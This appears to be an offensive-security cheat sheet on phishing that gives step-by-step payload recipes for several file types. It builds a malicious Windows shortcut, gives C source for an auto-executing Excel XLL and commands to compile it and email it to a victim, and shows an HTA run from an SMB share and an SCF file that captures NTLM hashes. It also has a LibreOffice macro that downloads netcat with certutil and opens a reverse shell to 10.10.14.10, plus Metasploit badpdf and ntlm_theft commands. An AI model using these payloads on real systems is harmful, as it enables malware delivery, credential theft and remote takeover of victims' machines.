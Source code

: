 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["phishing", "email", "xll", "excel", "hta", "shortcut", "Windows", "odt", "libre", "vba", "ntlm_theft"]
---
```


---
{{< tab set1 tab1 active >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```powershell
$obj = New-Object -ComObject WScript.Shell
```

```powershell
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```powershell
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```powershell
$link.Save()
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

<div>

```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<PowerShell #3 Base64 Payload>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

</div>

#### 1. Compile shell.c in Linux

<div>

```bash
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

</div>

#### 2. Send email with the malicious xll file

<div>

```bash
swaks --to "victim@victim.com" --from "attacker@attacker.com" --server "victim.com" --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

</div>

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

<div>

```bash
# In our local Linux machine
impacket-smbserver -smb2support share .
```

</div>

#### 2. Create a Malicious hta File in local Linux SMB share

<div>

```html
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<PowerShell #3 Base64 Payload>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

</div>

#### 3. Create a shortcut file in target Windows

<div>

```powershell
# In target Windows machine (powershell)
$url = "file://10.10.14.10/share/shell.hta"
```

```powershell
$shortcutPath = "C:\ProgramData\shell.url"
```

```powershell
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```powershell
Set-Content -Path $shortcutPath -Value $shortcutContent
```

</div>

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

<div>

```bash
# In our local Linux machine
sudo responder -I tun0
```

</div>

#### 2. Create a malicious shortcut

<div>

```evil.scf
[Shell]
Command=2

IconFile=\\10.10.14.10\icon
```

</div>

#### 3. Upload the malicious shortcut

<div>

```bash
# In our local Linux machine
smbclient -N \\\\10.10.11.10\\share\\
```

```bash
mput evil.scf
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

```
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

</div>

<br>

<div>

```bash
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://10.10.14.10/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.10 443")
End Sub
```

</div>

<br>

<div>

```
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

<div>

```bash
msfconsole -q
```

```bash
search badpdf
```

```bash
set filename evil.pdf
```

```bash
set lhost 10.10.14.10
```

```bash
exploit
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

<div>

```bash
python3 ntlm_theft.py -g all -s 10.10.14.10 -f test
```

</div>

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}

<br>